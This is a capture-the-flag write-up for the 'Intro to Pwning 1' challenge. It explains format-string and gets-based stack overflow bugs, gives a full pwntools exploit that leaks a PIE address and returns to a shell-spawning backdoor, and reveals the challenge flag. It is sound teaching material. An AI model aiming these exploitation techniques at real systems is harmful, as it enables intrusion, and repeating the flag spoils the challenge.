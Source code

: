 # Intro to Pwning 1

For this challenge we are provided with an ELF binary `pwn1` and its source code `pwn1.c`. The binary is a PIE, but doesn't use stack-canaries. Analyzing the source code, we spot three bugs:

- In `welcome()`: stack smashing via `gets`

- In `welcome()`: user-controlled format string via `printf`

- In `AAAAAAAA()`: stack smashing via `gets`

Also, there is a backdoor in `WINgardium_leviosa()`, spawning a shell. Using the format string bug, we leak the address of the binary off the stack. Then we smash the stack in `AAAAAAAA()` to overwrite its return address and return to the backdoor to get a shell.

Flag: `CSCG{NOW_PRACTICE_MORE}`

Exploit code:

```python
from pwn import *

# connect
b = ELF("pwn1")
context.binary = b
r = remote("hax1.allesctf.net", 9100)
r.recvuntil("witch name:")

# leak binary address
r.sendline("%39$p")
leak = r.recvuntil("magic spell:")
leak = leak.splitlines()[-1].split()[0]
leak = int(leak, 0)
b.address = leak - 0xB21
info("binary @ 0x%x", b.address)

# return to backdoor
r.sendline(
    "Expelliarmus".ljust(0x108, "\0") + flat(b.address + 0xB2D, b.symbols.WINgardium_leviosa)
)
r.interactive()
```
